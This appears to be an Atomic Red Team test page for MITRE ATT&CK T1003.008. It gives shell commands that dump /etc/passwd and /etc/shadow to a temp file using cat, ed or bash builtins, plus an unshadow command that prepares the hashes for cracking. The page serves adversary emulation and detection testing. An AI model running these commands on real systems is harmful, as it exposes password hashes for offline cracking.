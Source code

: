 # T1003.008 - OS Credential Dumping: /etc/passwd and /etc/shadow
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)
<blockquote>Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

The Linux utility, unshadow, can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper:(Citation: nixCraft - John the Ripper) <code># /usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/passwd (Local)](#atomic-test-2---access-etcpasswd-local)

- [Atomic Test #3 - Access /etc/{shadow,passwd} with a standard bin that's not cat](#atomic-test-3---access-etcshadowpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #4 - Access /etc/{shadow,passwd} with shell builtins](#atomic-test-4---access-etcshadowpasswd-with-shell-builtins)


<br/>

## Atomic Test #1 - Access /etc/shadow (Local)
/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #2 - Access /etc/passwd (Local)
/etc/passwd file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`! 


```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Access /etc/{shadow,passwd} with a standard bin that's not cat
Dump /etc/passwd and /etc/shadow using ed

**Supported Platforms:** Linux


**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
echo -e "e /etc/passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd} with shell builtins
Dump /etc/passwd and /etc/shadow using bash builtins

**Supported Platforms:** Linux


**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
function testcat(){ echo "$(< $1)"; }
testcat /etc/passwd > #{output_file}
testcat /etc/shadow > #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
